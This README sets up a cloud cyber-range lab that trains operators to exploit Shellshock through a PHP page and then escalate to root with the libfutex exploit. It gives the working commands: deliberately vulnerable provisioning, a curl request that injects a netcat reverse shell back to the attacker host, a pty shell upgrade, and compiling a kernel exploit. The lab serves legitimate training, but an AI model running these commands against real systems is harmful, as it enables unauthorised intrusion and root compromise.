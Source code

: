 # Shell Shock / libfutex Privilege Escalation Example
  
This scenario can be used to train operators to leverage a Shell Shock vulnerability in a PHP web page, along with the 'libfutex' Local Privilege Escalation.

- [Shell Shock](https://www.exploit-db.com/exploits/35146)
- [libfutex](https://www.exploit-db.com/exploits/35370)

## Scenario features

| Feature | Availability | Implemented With |
| --- | ---| --- |
| Targets | Yes | GCE |
| Attackers | Yes | GCE |
| VPC | Yes | VPC |
| Network logs | Yes | VPC Flow Logs |
| PCAPs | No | - |

## Artifacts

* [Terraform Build script](main.tf)
* [Terraform Variables file](terraform.tfvars)
* [Blue Ansible playbook](blue35370.yml)

## Instructions

1. Login to https://console.cloud.google.com/
2. Start the Cloud Shell
3. Clone this repo

```
git clone https://github.com/MikeStorrs/cyber.git
cd cyber
```

4. Use Terraform to Deploy Cyber Range 

```
terraform init
terraform apply

  Enter a value: yes
```

5. SSH to the blue instance `gcloud compute ssh blue-35370 --zone us-east4-a`
6. Accept SSH Key Generation and Set SSH Passphrase

```
Do you want to continue (Y/n)?  Y
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): <PASSPHRASE>
Enter same passphrase again: <PASSPHRASE>
```

7. Clone the meetup, cyber-range-target, and exploit-curation repos

```
git clone https://github.com/MikeStorrs/cyber.git
git clone https://github.com/redteam-project/cyber-range-target
git clone https://github.com/redteam-project/exploit-curation
```

8. Run Ansible script to make this instance vulnerable to Shellshock and libfutex

```
sudo ansible-playbook cyber/blue35370.yml > ~/ansible.out
```

9. Wait for the instance to reboot, then re-log in and remove Supervisor Mode Access Prevention and (NOTE NEED TO ADD nosmap / nosmep to Ansible Script)

```
gcloud compute ssh blue-35370 --zone us-east4-a
sudo grubby --args "nosmap nosmep" --update-kernel /boot/vmlinuz-3.10.0-123.1.2.el7.x86_64
sudo reboot
```

10. Now relogin and scan for exploitable vulnerabilities with `lem`

```
gcloud compute ssh blue-35370 --zone us-east4-a
sudo pip install lem
sudo lem host assess --curation exploit-curation --kind stride --score 090000
sudo lem exploit copy --id 35146 --source exploit-database --destination /var/www/html --curation exploit-curation
sudo mv /var/www/html/exploit-database-35146.txt /var/www/html/index.php
```

11. Our remote code execution vulnerability is now ready to exploit. Now start two new Cloud Shell tabs and ssh to red-1 from both.

```
gcloud compute ssh red-1 --zone us-east4-a
```

12. In the first `red-1` shell, install Netcat and start a listener on port 4444.

```
nc -nlv 4444
```

13. In the second `red-1` shell, exploit the Shellshock vulnerability we staged in step 10. Replace the 10.150.0.3 IP address with your blue-35370 Internal IP and the 10.150.0.2 with your red-1 Internal IP.

```
curl -X GET 'http://10.150.0.3/index.php?cmd=nc%20-nv%2010.150.0.2%204444%20-e%20/bin/bash'
```

14. Now in the first `red-1` shell, you should have a connection to `blue-35370`. Use this Python trick to get a tty and invoke a Bourne shell.

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

15. Inside the new shell, Create a virtualenv, install lem, and look for a privilege escalation vulnerability.

```
cd /tmp
virtualenv venv
source venv/bin/activate
pip install lem
git clone https://github.com/redteam-project/exploit-curation
lem host assess --curation exploit-curation --kind stride --score 000009
```

Note that there is currently a [bug](https://github.com/redteam-project/lem/issues/5) in lem that prevents the exploit that maps to CVE-2014-3153 from returning, but for purposes of this lab we know that it maps to EDBID 35370.

16. Stage the exploit and pop root. 

```
lem exploit copy --curation /tmp/exploit-curation --source exploit-database --id 35370 --destination /tmp/
mv exploit-database-35370.txt exploit.c
gcc -lpthread exploit.c -o exploit
./exploit
id -a
```